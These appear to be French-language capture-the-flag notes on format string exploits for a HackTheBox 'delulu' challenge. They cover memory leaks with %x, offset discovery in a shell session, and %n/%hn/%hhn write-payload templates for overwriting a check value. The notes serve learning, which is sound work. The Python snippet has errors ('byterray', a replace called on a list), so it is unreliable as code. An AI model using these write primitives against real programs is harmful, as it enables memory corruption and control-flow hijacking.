

# Documentation 

https://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html

## Lire en mémoire 


```python 
print('%08x-'*200) #exploit en hex
l=s.split().replace("-"," ") #s=mem exploit 

m=[]
for i in range(len(l)):
        ba=byterray.fromhex(l[i])
        ba.reverse() #big 
        m.append(''.join(format(x,'c') for x in ba))
```

## Ecrire en mémoire 
 
- %n écrit sur 4 bytes-> adresse énorme en hexa 
- on écrit par groupe de 2 bytes avec %hn
- possible d'écrire byte par byte avec %hhn

### Déterminer le n

On a dans le code d'une part:




D'autre part:

```bash
The D-LuLu face identification robot will scan you shortly!

Try to deceive it by changing your ID.

>> 
[!] Checking.. eb31dbb0.0.96714887.10.7fffffff.1337babe.eb31fcd0.252e7825.2e78252e.78252e78.
[-] ALERT ALERT ALERT ALERT

┌─[night@night-20b7s2ex01]─[~/htb/pwn/delulu]
└──╼ 5 fichiers, 36Kb)─$ python -c "print('%x.'*20)" | ./delulu 
```

- repérer le check visuellement dans la pile: **ici l'offset est de 6**

- obtenir l'addresse du check: **ici le code est bien fait: var40=&var38 est stockée juste après donc le $n=7**


### Exploit

0xdeadbeef = 0xdead (high) "+" 0xbeef (low)

- [hexa à écrire]%x [n contrôlé]$n

**ou**

- [endian(adresse écriture low) + endian(addresse écriture high = low +2)]
%[hexa low à écrire - 8]x%[n contrôlé]$hn%[hexa abs((low-8)-(high-8)) à écrire]x%[n+1] $hn"')


**ou** en 4 avec %hhn ...
